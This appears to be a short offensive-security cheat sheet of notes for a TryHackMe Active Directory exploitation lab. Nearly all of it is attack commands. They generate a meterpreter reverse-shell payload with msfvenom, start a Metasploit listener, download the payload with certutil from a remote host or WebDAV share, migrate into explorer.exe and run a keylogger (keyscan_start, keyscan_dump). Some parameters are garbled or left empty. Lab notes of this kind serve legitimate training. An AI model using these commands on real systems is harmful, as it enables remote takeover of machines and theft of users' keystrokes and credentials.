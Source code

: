 
## Credential Hunting

```powershell
.kdbx # credential database file - it is encrypted
```


## Keylogging

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=exploitad LPORT=4444 -f psh -o shell.ps1

sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST $ipOrIface; set LPORT listening 4444; exploit"

certutil.exe -urlcache -split -f http:///shell.ps1
findstr /V /L <seachforstringthatdoesnotexist> \\webdavserver\folder\shell.exe > c:\ADS\shell.exe


ps | grep "explorer"
migrate $PID
getuid
keyscan_start
keyscan_dump
```


## References

[THM Exploiting AD Room](https://tryhackme.com/room/exploitingad)